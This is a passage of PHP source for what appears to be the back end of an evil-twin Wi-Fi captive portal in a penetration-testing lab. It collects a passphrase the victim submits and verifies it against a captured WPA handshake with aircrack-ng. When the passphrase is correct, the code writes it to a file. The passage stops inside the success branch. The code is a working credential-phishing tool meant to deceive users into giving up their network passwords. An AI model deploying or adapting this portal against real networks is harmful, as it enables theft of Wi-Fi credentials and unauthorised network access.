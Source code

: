 ```
<?php
# Path of the handshake PCAP
$handshake_path = '/home/kali/discovery-01.cap';
# ESSID
$essid = 'MegaCorp One Lab';
# Path where a successful passphrase will be written
# Apache2's user must have write permissions
# For anything under /tmp, it's actually under a subdirectory
#  in /tmp due to Systemd PrivateTmp feature:
#  /tmp/systemd-private-$(uuid)-${service_name}-${hash}/$success_path
# See https://www.freedesktop.org/software/systemd/man/systemd.exec.html
$success_path = '/tmp/passphrase.txt';
# Passphrase entered by the user
$passphrase = $_POST['passphrase'];

# Make sure passphrase exists and
# is within passphrase lenght limits (8-63 chars)
if (!isset($_POST['passphrase']) || strlen($passphrase) < 8 || strlen($passphrase) > 63) {
  header('Location: index.php?failure');
  die();
}

# Check if the correct passphrase has been found already ...
$correct_pass = file_get_contents($success_path);
if ($correct_pass !== FALSE) {

  # .. and if it matches the current one,
  # then redirect the client accordingly
  if ($correct_pass == $passphrase) {
    header('Location: index.php?success');
  } else {
    header('Location: index.php?failure');
  }
  die();
}

# Add passphrase to wordlist ...
$wordlist_path = tempnam('/tmp', 'wordlist');
$wordlist_file = fopen($wordlist_path, "w");
fwrite($wordlist_file, $passphrase);
fclose($wordlist_file);

# ... then crack the PCAP with it to see if it matches
# If ESSID contains single quotes, they need escaping
exec("aircrack-ng -e '". str_replace('\'', '\\\'', $essid) ."'" .
" -w " . $wordlist_path . " " . $handshake_path, $output, $retval);

$key_found = FALSE;
# If the exit value is 0, aircrack-ng successfully ran
# We'll now have to inspect output and search for
# "KEY FOUND" to confirm the passphrase was correct
if ($retval == 0) {
	foreach($output as $line) {
		if (strpos($line, "KEY FOUND") !== FALSE) {
			$key_found = TRUE;
			break;
		}
	}
}

if ($key_found) {

  # Save the passphrase and redirect the user to the success page
```
